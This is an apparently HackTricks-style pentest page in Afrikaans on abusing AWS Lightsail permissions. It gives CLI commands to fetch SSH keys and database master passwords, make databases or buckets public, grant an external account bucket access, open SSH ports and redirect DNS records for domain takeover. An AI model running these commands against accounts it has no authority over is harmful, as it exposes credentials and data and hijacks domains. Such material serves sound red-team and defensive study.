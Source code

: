 # AWS - Lightsail Privesc

{{#include ../../../banners/hacktricks-training.md}}

## Lightsail

Vir meer inligting oor Lightsail, kyk:

{{#ref}}
../aws-services/aws-lightsail-enum.md
{{#endref}}

> [!WARNING]
> Dit is belangrik om te noem dat Lightsail **nie IAM rolle wat aan die gebruiker behoort gebruik nie**, maar aan 'n AWS bestuurde rekening, so jy kan nie hierdie diens misbruik om privesc te doen nie. Tog kan **sensitiewe data** soos kode, API sleutels en databasisinligting in hierdie diens gevind word.

### `lightsail:DownloadDefaultKeyPair`

Hierdie toestemming sal jou toelaat om die SSH sleutels te kry om toegang tot die instansies te verkry:
```
aws lightsail download-default-key-pair
```
**Potensiële Impak:** Vind sensitiewe inligting binne die instansies.

### `lightsail:GetInstanceAccessDetails`

Hierdie toestemming sal jou toelaat om SSH-sleutels te genereer om toegang tot die instansies te verkry:
```bash
aws lightsail get-instance-access-details --instance-name <instance_name>
```
**Potensiële Impak:** Vind sensitiewe inligting binne die instansies.

### `lightsail:CreateBucketAccessKey`

Hierdie toestemming sal jou toelaat om 'n sleutel te verkry om toegang tot die emmer te verkry:
```bash
aws lightsail create-bucket-access-key --bucket-name <name>
```
**Potensiële Impak:** Vind sensitiewe inligting binne die emmer.

### `lightsail:GetRelationalDatabaseMasterUserPassword`

Hierdie toestemming sal jou toelaat om die geloofsbriewe te verkry om toegang tot die databasis te verkry:
```bash
aws lightsail get-relational-database-master-user-password --relational-database-name <name>
```
**Potensiële Impak:** Vind sensitiewe inligting binne die databasis.

### `lightsail:UpdateRelationalDatabase`

Hierdie toestemming sal jou toelaat om die wagwoord te verander om toegang tot die databasis te verkry:
```bash
aws lightsail update-relational-database --relational-database-name <name> --master-user-password <strong_new_password>
```
As die databasis nie publiek is nie, kan jy dit ook publiek maak met hierdie toestemmings met
```bash
aws lightsail update-relational-database --relational-database-name <name> --publicly-accessible
```
**Potensiële Impak:** Vind sensitiewe inligting binne die databasis.

### `lightsail:OpenInstancePublicPorts`

Hierdie toestemming laat toe om poorte na die Internet te open.
```bash
aws lightsail open-instance-public-ports \
--instance-name MEAN-2 \
--port-info fromPort=22,protocol=TCP,toPort=22
```
**Potensiële Impak:** Toegang tot sensitiewe poorte.

### `lightsail:PutInstancePublicPorts`

Hierdie toestemming laat toe om poorte na die Internet oop te maak. Let daarop dat die oproep enige poort wat nie daarop gespesifiseer is nie, sal sluit.
```bash
aws lightsail put-instance-public-ports \
--instance-name MEAN-2 \
--port-infos fromPort=22,protocol=TCP,toPort=22
```
**Potensiële Impak:** Toegang tot sensitiewe poorte.

### `lightsail:SetResourceAccessForBucket`

Hierdie toestemming laat toe om 'n instansie toegang tot 'n emmer te gee sonder enige ekstra geloofsbriewe.
```bash
aws set-resource-access-for-bucket \
--resource-name <instance-name> \
--bucket-name <bucket-name> \
--access allow
```
**Potensiële Impak:** Potensiële nuwe toegang tot emmers met sensitiewe inligting.

### `lightsail:UpdateBucket`

Met hierdie toestemming kan 'n aanvaller sy eie AWS-rekening leestoegang oor emmers verleen of selfs die emmers publiek maak vir almal:
```bash
# Grant read access to exterenal account
aws update-bucket --bucket-name <value> --readonly-access-accounts <external_account>

# Grant read to the public
aws update-bucket --bucket-name <value> --access-rules getObject=public,allowPublicOverrides=true

# Bucket private but single objects can be public
aws update-bucket --bucket-name <value> --access-rules getObject=private,allowPublicOverrides=true
```
**Potensiële Impak:** Potensiële nuwe toegang tot emmers met sensitiewe inligting.

### `lightsail:UpdateContainerService`

Met hierdie toestemmings kan 'n aanvaller toegang tot privaat ECR's van die houerdiens verleen.
```bash
aws update-container-service \
--service-name <name> \
--private-registry-access ecrImagePullerRole={isActive=boolean}
```
**Potensiële Impak:** Kry sensitiewe inligting van private ECR

### `lightsail:CreateDomainEntry`

'n Aanvaller met hierdie toestemming kan 'n subdomein skep en dit na sy eie IP-adres wys (subdomein oorname), of 'n SPF-record opstel wat hom toelaat om e-posse van die domein te vervals, of selfs die hoofdomein na sy eie IP-adres stel.
```bash
aws lightsail create-domain-entry \
--domain-name example.com \
--domain-entry name=dev.example.com,type=A,target=192.0.2.0
```
**Potensiële Impak:** Neem 'n domein oor

### `lightsail:UpdateDomainEntry`

'n Aanvaller met hierdie toestemming kan 'n subdomein skep en dit na sy eie IP-adres wys (subdomein oorname), of 'n SPF-record opstel wat hom toelaat om e-posse van die domein te vervals, of selfs die hoofdomein na sy eie IP-adres stel.
```bash
aws lightsail update-domain-entry \
--domain-name example.com \
--domain-entry name=dev.example.com,type=A,target=192.0.2.0
```
**Potensiële Impak:** Neem 'n domein oor

{{#include ../../../banners/hacktricks-training.md}}
